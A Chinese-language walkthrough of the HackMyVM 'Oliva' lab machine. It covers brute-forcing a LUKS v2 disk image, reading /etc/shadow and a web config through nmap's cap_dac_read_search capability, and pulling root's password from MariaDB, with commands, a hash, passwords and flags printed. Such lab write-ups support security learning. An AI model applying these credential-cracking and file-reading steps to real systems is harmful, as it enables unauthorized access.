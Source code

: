 # Oliva

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Oliva

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 发现 http://192.168.5.39/index.php 提示点击链接 http://192.168.5.39/oliva 获得 root 密码。file 查看文件属性发现是 oliva: LUKS encrypted file, ver 2, 使用 sha256 进行的加密, 需要进行解密。

进行文件分割:

```
dd  if=oliva of=oliva-drive-cut.dd bs=512 count=4097
```

进行爆破，但是没戏，发现 hashcat 14600 只支持 v1 版本的 LUKS 文件破解:

```
hashcat -m 14600 -a 0 oliva-drive-cut.dd /usr/share/wordlist/rockyou.txt
```

在找一下其他的破解工具，找到了这个可以破解 v2 版本的文件 bruteforce-luks L

```
bruteforce-luks -t 16 -f /usr/share/wordlists/rockyou.txt oliva -v 5
```

找到密码: bebita , 在使用 cryptsetup 挂载加密磁盘:

```
cryptsetup luksOpen oliva m
```

挂载到了 /dev/mapper/m 下 进行文件挂载：

```
mkdir m
sudo mount /dev/mapper/m m
```

进入 m 目录，发现密码文件：

```
cat mypass.txt
Yesthatsmypass!
```

尝试使用 oliva 用户登陆 ssh，先拿到 user flag:

```
oliva@oliva:~$ cat user.txt
HMVY0H8NgGJqbFzbgo0VMRm
```

发现 capabilities 程序:

```
oliva@oliva:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
```

利用 cap_dac_read_search 权限读取敏感信息：

```
/usr/bin/nmap -iL /etc/shadow

root:$y$j9T$mJZXSkk0PjMpjwgunTu3a.$xlW8pdbOdxHdqCatq072mj3qQ69To4Gy6WbRwSbY6S3:19542:0:99999:7:::
```

但是 john 没破解出来:

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash --pot=./pot
```

猜不出 root 目录中的 roo flag 的文件名读取不到。

在回头看看 html 目录中的 web 文件，都是 www-data 所属，读取一下看看会不会有重要信息 index.php

```
/usr/bin/nmap -iL /var/www/html/index.php

Hi oliva, Here the pass to obtain root: <?php $dbname = 'easy'; $dbuser = 'root'; $dbpass = 'Savingmypass'; $dbhost = 'localhost'; ?>
```

链接到 mysql，拿到 root 用户的密码:

```
MariaDB [easy]> select * from easy.logging;
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | OhItwasEasy! |
+--------+------+--------------+
```

su 切换到 root，拿到 root flag:

```
root@oliva:~# cat rutflag.txt
HMVnuTkm4MwFQNPmMJHRyW7
```
